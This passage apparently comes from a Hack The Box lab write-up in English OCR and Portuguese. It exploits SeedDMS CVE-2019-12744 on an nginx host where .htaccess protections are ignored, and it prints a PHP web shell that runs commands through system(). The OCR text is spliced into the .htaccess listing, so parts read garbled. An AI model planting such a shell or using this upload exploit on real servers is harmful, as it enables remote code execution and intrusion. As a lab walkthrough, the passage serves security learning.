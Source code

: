 Require all denied 
 
</ifModule> 
 
 
 
# line below if for Apache 2.2 
 
<ifModule !mod_authz_core.c> 
 
deny from all 
 
This information matches with the available PoC for CVE-2019-12744, which exploits unvalidated file upload
to the data directory. As the example clearly states, the .htaccess settings are meant for Apache, while
the web server running on the target system is nginx. As we can see by looking at the quickstart archive, this
is configured by default. We can confirm it by requesting the .htaccess file:
Since nginx ignores .htaccess files, there is a chance we might still be able to upload arbitrary files and
access them to obtain remote code execution.
Following the PoC exploit, we create the following PHP file:
Satisfy All 
 
</ifModule> 
 
 
 
# section for Apache 2.2 and 2.4 
 
<ifModule mod_autoindex.c> 
 
IndexIgnore * 
 
</ifModule> 
 
```
```

Esta informação coincide com o PoC disponível para o `CVE-2019-12744`, que explora o carregamento de ficheiros não validados para o diretório de dados. Como o exemplo indica claramente, as definições .htaccess destinam-se ao Apache, enquanto o servidor Web em execução no sistema de destino é o nginx. Como podemos ver no arquivo de início rápido, isto está configurado por defeito. Podemos confirmar isso solicitando o arquivo .htaccess:

[SeedDMS versions < 5.1.11 - Remote Command Execution](https://www.exploit-db.com/exploits/47022)

`curl [http://dms-pit.htb/seeddms51x/data/.htaccess](http://dms-pit.htb/seeddms51x/data/.htaccess)`

![Untitled](SNMP%209c05bf7a34d34fa59bdc3cbbc73ace2a/Untitled%208.png)

Uma vez que o nginx ignora os ficheiros .htaccess, existe a possibilidade de conseguirmos carregar ficheiros arbitrários e aceder-lhes para obter a execução remota de código. Seguindo a exploração PoC, criamos o seguinte ficheiro PHP:

```python
<?php
 if(isset($_REQUEST['cmd'])){
  echo "<pre>";
  $cmd = ($_REQUEST['cmd']);
  system($cmd);
  echo "</pre>";
  die;
}
?>
```
